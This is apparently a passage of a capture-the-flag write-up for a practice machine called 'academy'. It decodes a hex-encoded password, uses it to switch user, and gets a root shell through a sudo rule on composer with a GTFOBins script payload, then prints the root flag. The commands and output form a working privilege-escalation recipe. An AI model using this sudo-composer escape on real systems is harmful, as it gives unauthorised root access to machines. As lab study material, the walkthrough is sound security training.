 ```
$ printf %s '6D7262336E5F41634064336D79210A' | xxd -r -p
mrb3n_Ac@d3my!
```

## Privilege Escalation of Machine : from mrb3n to mrb3n

`mrb3n` is a sudoer:

```
$ su  mrb3n
Password: mrb3n_Ac@d3my!

$ id
uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)

$ sudo -l
[sudo] password for mrb3n: mrb3n_Ac@d3my!

Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

So let's check a GTFO for that one:

```
$ gtfoblookup update
$ gtfoblookup linux sudo composer
composer:

    sudo:

        Code: TF=$(mktemp -d)
              echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}'
              >$TF/composer.json
              sudo composer --working-dir=$TF run-script x
```

So let's do that:

```
$ TF=$(mktemp -d)
$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}'>$TF/composer.json
$ sudo composer --working-dir=$TF run-script x
                                              sudo composer --working-dir=$TF run-script x
PHP Warning:  PHP Startup: Unable to load dynamic library 'mysqli.so' (tried: /usr/lib/php/20190902/mysqli.so (/usr/lib/php/20190902/mysqli.so: undefined symbol: mysqlnd_global_stats), /usr/lib/php/20190902/mysqli.so.so (/usr/lib/php/20190902/mysqli.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
PHP Warning:  PHP Startup: Unable to load dynamic library 'pdo_mysql.so' (tried: /usr/lib/php/20190902/pdo_mysql.so (/usr/lib/php/20190902/pdo_mysql.so: undefined symbol: mysqlnd_allocator), /usr/lib/php/20190902/pdo_mysql.so.so (/usr/lib/php/20190902/pdo_mysql.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
Do not run Composer as root/super user! See https://getcomposer.org/root for details
> /bin/sh -i 0<&3 1>&3 2>&3
# id
    id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
                    cat /root/root.txt
9ba239e4f7e863aeaec4558360d77078
```

